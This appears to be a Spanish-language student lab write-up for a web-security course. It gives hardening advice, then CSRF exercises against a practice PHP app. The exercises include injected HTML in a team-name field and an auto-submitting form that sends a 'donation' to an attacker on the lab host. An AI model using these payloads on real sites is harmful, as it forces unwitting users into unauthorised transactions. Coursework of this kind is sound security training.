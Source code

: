 **3. Uso de HTTPS**
Implementa SSL/TLS para cifrar todas las comunicaciones entre el cliente y el servidor. Esto previene el espionaje y la manipulación de datos transmitidos, especialmente importante en formularios de inicio de sesión y transacciones.

**5. Seguridad a Nivel de Aplicación**
Implementa medidas de seguridad en la aplicación como:

- Validación de entrada en el servidor para prevenir inyecciones SQL, XSS y otros ataques de inyección.
- Autenticación y autorización robustas.
- Uso de cabeceras de seguridad HTTP como X-Frame-Options, X-XSS-Protection, Strict-Transport-Security, y Content-Security-Policy.

**6. Monitoreo y Registro**
Configura el monitoreo y los registros (logging) para detectar y responder a actividades sospechosas o maliciosas. Asegúrate de que los registros estén seguros, bien gestionados y analizados periódicamente.

**7. Backups y Recuperación**
Implementa una política de copias de seguridad regulares y asegúrate de que los backups sean almacenados en una ubicación segura. Prueba regularmente los procedimientos de recuperación de datos para garantizar que son efectivos.



# Parte 5 - CSRF

## a) Editad un jugador para conseguir que, en el listado de jugadores (list_players.php) aparezca, debajo del nombre de su equipo y antes de “(show/add comments)” un botón llamado “Profile” que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

En el campo Team name de insert_player.php, colocamos lo siguiente:

    <?$team?><br><br>
    <a href="http://web.pagos/donate.php?amount=100&receiver=attacker,">Enlace</a>

<img src="img/4.png">

## b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón.Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php).

Cualquier usuario que visite la página web y envíe el formulario, se enviará una solicitud POST a la URL de la API con el comentario malicioso.

    <html>
    <body>
      <h1>Ataque CSRF</h1>
      <form method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
        <input type="hidden" name="comment" value="<?php echo 'Este es un comentario CSRF'; ?>">
        <input type="submit" value="Enviar">
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
    </html>
